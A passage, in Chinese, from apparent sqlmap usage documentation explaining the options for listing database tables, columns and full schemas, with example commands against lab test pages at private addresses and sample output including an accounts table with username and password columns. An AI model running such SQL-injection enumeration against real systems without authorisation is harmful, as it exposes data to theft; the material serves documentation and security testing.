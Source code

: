 ### 列举数据库表

参数：–tables,–exclude-sysdbs,-D

当前用户有权限读取包含所有数据库表信息的表中的时候，即可列出一个特定数据的所有表。

如果你不提供-D参数来列指定的一个数据的时候，sqlmap会列出数据库所有库的所有表。

–exclude-sysdbs参数是指包含了所有的系统数据库。

需要注意的是在Oracle中你需要提供的是TABLESPACE_NAME而不是数据库名称。

### 列举数据库表中的字段

参数：–columns,-C,-T,-D

当前用户有权限读取包含所有数据库表信息的表中的时候，即可列出指定数据库表中的字段，同时也会列出字段的数据类型。

如果没有使用-D参数指定数据库时，默认会使用当前数据库。

列举一个SQLite的例子：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/sqlite/get_int.php?id=1" --columns -D testdb -T users -C name
[...]
Database: SQLite_masterdb
Table: users
[3 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| id      | INTEGER |
| name    | TEXT    |
| surname | TEXT    |
+---------+---------+
```

### 列举数据库系统的架构

参数：–schema,–exclude-sysdbs

用户可以用此参数获取数据库的架构，包含所有的数据库，表和字段，以及各自的类型。

加上–exclude-sysdbs参数，将不会获取数据库自带的系统库内容。

MySQL例子：

```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --schema --batch --exclude-sysdbs
[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+ Database: owasp10
Table: blogs_table
[4 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date         | datetime |
| blogger_name | text     |
```